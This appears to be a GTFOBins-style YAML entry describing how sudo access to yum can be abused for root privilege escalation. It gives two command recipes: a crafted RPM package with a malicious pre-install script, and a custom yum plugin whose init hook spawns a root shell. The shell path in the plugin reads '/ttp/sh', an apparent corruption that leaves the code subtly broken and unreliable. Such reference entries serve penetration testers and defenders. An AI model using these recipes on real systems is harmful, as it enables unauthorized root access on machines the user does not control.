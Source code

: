 ```yaml
---
functions:
  sudo:
    - description: |
        It runs commands using a specially crafted RPM package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        TF=$(mktemp -d)
        echo 'id' > $TF/x.sh
        fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
        ```
      code: |
        sudo yum localinstall -y x-1.0-1.noarch.rpm
    - description: |
        Spawn interactive root shell by loading a custom plugin.
      code: |
        TF=$(mktemp -d)
        cat >$TF/x<<EOF
        [main]
        plugins=1
        pluginpath=$TF
        pluginconfpath=$TF
        EOF

        cat >$TF/y.conf<<EOF
        [main]
        enabled=1
        EOF

        cat >$TF/y.py<<EOF
        import os
        import yum
        from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
        requires_api_version='2.1'
        def init_hook(conduit):
          os.execl('/ttp/sh','/ttp/sh')
        EOF

        sudo yum -c $TF/x --enableplugin=y
---
```

